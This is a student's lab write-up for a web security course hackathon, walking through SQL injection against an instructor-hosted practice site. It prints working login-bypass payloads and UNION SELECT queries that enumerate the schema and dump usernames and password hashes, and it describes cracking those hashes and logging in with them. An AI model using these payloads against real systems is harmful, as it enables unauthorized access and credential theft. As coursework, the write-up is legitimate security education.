# WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Bheemreddy Vikhyath Reddy

**Email**: bheemrvy@mail.uc.edu


## Repository Information

Respository's URL: [https://github.com/Vikhyath-Reddy/waph-bheemrvy](https://github.com/Vikhyath-Reddy/waph-bheemrvy)

# Hackathon 2 - SQL Injection Attacks

## overview

This hackathon aims to teach participants how to recognize and exploit SQL injection vulnerabilities in a simulated web application environment. The goal is to comprehend the causes of SQL injection vulnerabilities and master ethical hacking methods to mitigate these risks in real-world situations. By participating in this hackathon, I gained valuable skills in identifying and exploiting SQL injection attacks, making them more effective at securing web applications.

Here is the link to the Github repository
[https://github.com/Vikhyath-Reddy/waph-bheemrvy/tree/main/Hackthons/Hackthon2](https://github.com/Vikhyath-Reddy/waph-bheemrvy/tree/main/Hackthons/Hackthon2).

## Level 0

URL : `http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level0`

SQL Injection:

```sql
bheemrvy' or 1=1;#
```

A malicious code allows unauthorized access to a system through SQL injection. When a user types 'bheemrvy' as the username and adds a single quote followed by '1=1', the system interprets it as the end of the username and always considers the login check as successful, bypassing the usual login procedure. The '#' symbol in the code acts as a comment, ignoring any additional characters or commands that might have followed, making the system vulnerable to unauthorized access.



## Level 1

URL : `http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1`

SQL Injection:

```sql
bheemrvy" or 1=1 LIMIT 1;#
```

To handle single quote issues, I've used double quotes in the SQL code. Also, to avoid fetching all rows and causing issues with the following logic, I've added the LIMIT keyword to fetch only one row. The condition '1=1' always holds true, and '#' separates the SQL query sections. This method effectively exploits system vulnerabilities.

Guessin SQL string in back-end:

```sql
$sql = " SELECT * FROM users WHERE username = "$username" AND password=md5("$password")";
$result = $mysqli->query($sql);
if($result->num_rows==1)
return TRUE;
return FALSE;
```



## Level 2

URL : `http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2`

### a. Detecting SQLi Vulnerabilities

While examining the login pages' security, I tested various inputs on the products.php page. I noticed odd responses, like a fatal error with the ID 'bheemrvy'. When I used data within double quotes, no response was returned. These anomalies suggest inadequate validation of input, possibly leaving the webpage vulnerable to SQL injection attacks. The attached screenshot demonstrates these tests and their outcomes based on input.



### b. Exploiting SQLi to Access Data

#### Identify the number of columns

SQL injections employ Union and Select statements to inject data into database tables. Trial and error methods are used to determine the number of columns. Initially assuming there were four columns, an error occurred.


    SQL Injection:

    ```sql
    id=1 UNION SELECT "1", "2", "3", "4";
    ```

    

Experimentation revealed that the structure actually has three columns. When inputting data for three columns, the webpage correctly displayed the provided numbers in the table.


    SQL Injection:

    ```sql
    id=1 UNION SELECT "first column", "second column", "third column";
    ```

    

#### Display your Information

SQL Injection:

```sql
id=1 UNION SELECT "bheemrvy", "Bheemreddy Vikhyath Reddy", "WAPH-003";
```



#### Display the Database Schema

The SQL injection technique utilizes a UNION SELECT method to gather information, specifically targeting the first column where usernames are typically stored. A significant snippet of code, "table_name, column_name from information_schema.columns," retrieves data from the information_schema.columns, which stores comprehensive details about table columns. This approach enables the compilation of a list of column names and essential metadata, such as tables and columns, facilitating further exploitation attempts.

SQL Injection:

```SQL
id=1 UNION SELECT "bheemrvy",table_name,column_name FROM information_schema.columns;
```



#### Display Login Credentials

- From the list of table names, it was discovered that the "login" table houses both login names and passwords.
- The columns in this table are identified as "loginname" and "password."

```SQL
id=1 UNION SELECT "bheemrvy",loginname,password FROM login
```


**Reveal Login hashed password values**

Using `https://10015.io/tools/md5-encrypt-decrypt` website I hashed the Login password values for both admin and test as shown below





### c. Login with Stolen Credentials
    





